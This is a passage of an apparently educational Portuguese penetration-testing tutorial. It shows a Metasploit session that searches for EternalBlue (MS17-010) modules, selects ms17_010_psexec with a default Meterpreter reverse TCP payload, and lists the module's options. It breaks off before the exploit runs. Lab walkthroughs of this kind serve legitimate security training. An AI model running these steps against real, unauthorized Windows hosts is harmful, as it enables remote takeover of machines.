 Agora, podemos ver nos resultados da verificação que nosso objetivo provavelmente está vulnerável ao EternalBlue. Vamos configurar a exploração e a carga útil agora e tentar.

3. Selecione Explorar e Carregar Carga, em seguida, Entregar

#### Escolha e configure nossa exploração e carga útil

```shell-session
msf6 > search eternal

Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   2  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   3  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   4  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
   5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
```

Nesse caso, examinamos os módulos de exploração de MSF utilizando a função de pesquisa para procurar uma exploração correspondente ao EternalBlue. A lista acima foi o resultado. Desde que tive mais sorte com o `psexec` versão dessa façanha, tentaremos essa primeiro. Vamos escolher e continuar a configuração.

#### Configurar a exploração e carga útil

```shell-session
msf6 > use 2
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_psexec) > options

Module options (exploit/windows/smb/ms17_010_psexec):

   Name                  Current Setting              Required  Description
   ----                  ---------------              --------  -----------
   DBGTRACE              false                        yes       Show extra debug trace info
   LEAKATTEMPTS          99                           yes       How many times to try to leak transaction
   NAMEDPIPE                                          no        A named pipe that can be connected to (leave bl
                                                                ank for auto)
   NAMED_PIPES           /usr/share/metasploit-frame  yes       List of named pipes to check
                         work/data/wordlists/named_p
                         ipes.txt
   RHOSTS                                             yes       The target host(s), range CIDR identifier, or h
                                                                osts file with syntax 'file:<path>'
   RPORT                 445                          yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                no        Service description to to be used on target for
                                                                 pretty listing
   SERVICE_DISPLAY_NAME                               no        The service display name
   SERVICE_NAME                                       no        The service name
   SHARE                 ADMIN$                       yes       The share to connect to, can be an admin share
```